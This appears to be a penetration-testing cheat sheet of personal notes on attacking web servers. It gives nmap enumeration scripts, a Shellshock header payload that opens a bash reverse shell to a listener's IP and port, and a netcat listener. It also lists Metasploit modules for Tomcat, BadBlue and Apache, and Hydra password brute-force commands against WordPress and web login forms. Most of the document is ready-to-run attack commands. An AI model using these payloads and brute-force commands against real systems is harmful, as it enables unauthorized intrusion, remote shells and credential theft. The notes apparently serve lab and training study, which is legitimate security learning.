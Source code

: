 # http
#http #dirbuster #gobuster #enum Scan for different directories. Like dirb but a smaller and more specific set of directories

```bash
nmap --script http-enum -sV -p 80 $IP
```

```bash
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|   /content/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /webdav/: Potentially interesting folder
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Headers
`nmap --script http-headers -sV -p 80 10.0.28.146`

### Methods
`nmap --script http-methods --script-args http-methods.url-path=/webdav/ 10.0.28.146`

shows methods (POST, GET, etc) on a specific path 

## Apache Web Server (LINUX)
### Shell Shock Vuln
>CVE-2014-6271. Reverse Shell. Executing CGI script via HTTP headers (via user agent)

![](</Images/Pasted image 20231209150204.png>)

Can use metasploit or Burpsuite.

To determine if the server is vulnerable use nmap
>`nmap -sV <ip> --script=http-shellshock --script-args "http-shellshock.uri=/<cgi sctipt>"`

Intercept request with Burp and enter above characters for the User Agent then command to run

For reverse shell set up listener

`nc nvlp 1234`

Then for burp `() { :; }; echo; echo; /bin/bash -c 'bash -i>7/dev/tcp/<ip address>/<port> 0>&1'`

metasploit method
search shellshock or use `exploit/multi/http/apache_mod_cgi_bash_env_exec`

### metasploit
#### web server enumeration
```
search type:auxiliary name:http
```

Metasploit version of dirbuster:
```
/auxiliary http/dir_scanner
```
```
/usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
```

Brute force http login:
 ```
 scanner/http/http_login
```

If that doesn't work can enum users in apache:
`scanner/http/apache_userdir_enum`

## HTTP File Server
#rejetto #http
Popular version: Rejetto HFS. v2.3 is vulnerable to RCE


## WordPress
#wordpress #hydra
Brute force with hydra
```bash
hydra -L wpusers -P /usr/share/wordlists/rockyou.txt colddboxeasy -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## Apache Tomcat
#apache #tomcat #port-8080
![](</Images/Pasted image 20231225192424.png>)

With #metasploit to gain reverse shell:
```
exploit/multi/handler/tomcat_jsp_bypass
```
Use `check` to see if service is vulnerable


If credentials are located, use below to create and upload payload
	https://node-security.com/posts/jsp-war-shell

### Hydra Brute Force Web Login
```bash
hydra -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.10.240.45 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
```
>form URI, login fail message

## Dirb

Easy use with default wordlist
```bash
dirb http://$IP
```

## Bad Blue Exploit


nmap results showing BadBlue version
```80/tcp open  http BadBlue httpd 2.7```

```bash
use exploit/windows/http/badblue_passthru
options
set RHOSTS $IP
run
```

